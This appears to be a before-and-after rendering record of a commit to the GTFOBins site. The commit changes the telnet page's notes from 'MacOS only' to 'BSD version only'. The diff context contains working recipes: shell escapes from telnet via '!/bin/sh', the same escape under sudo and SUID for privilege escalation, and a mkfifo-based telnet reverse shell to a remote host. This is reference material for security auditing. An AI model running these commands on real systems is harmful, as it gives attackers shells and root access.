

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/telnet.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1066 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix telnet descriptions

```diff
--- a/_gtfobins/telnet.md
+++ b/_gtfobins/telnet.md
@@ -1,13 +1,13 @@
 ---
 functions:
   exec-interactive:
-    - code: |
+    - description: BSD version only.
+      code: |
         RHOST=www.google.com
         RPORT=80
         telnet $RHOST $RPORT
         ^]
         !/bin/sh
-      description: MacOS only.
   reverse-shell:
     - description: Run `nc -l -p 8000` to receive the shell on the other end.
       code: |
@@ -17,19 +17,20 @@ functions:
         rm $TF
         mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/bash 1>$TF
   sudo-enabled:
-    - code: |
+    - description: BSD version only.
+      code: |
         RHOST=www.google.com
         RPORT=80
         sudo telnet $RHOST $RPORT
         ^]
         !/bin/sh
-      description: MacOS only.
   suid-limited:
-    - code: |
+    - description: BSD version only.
+      code: |
         RHOST=www.google.com
         RPORT=80
         ./telnet $RHOST $RPORT
         ^]
         !/bin/sh
-      description: MacOS only.
+
 ---
```
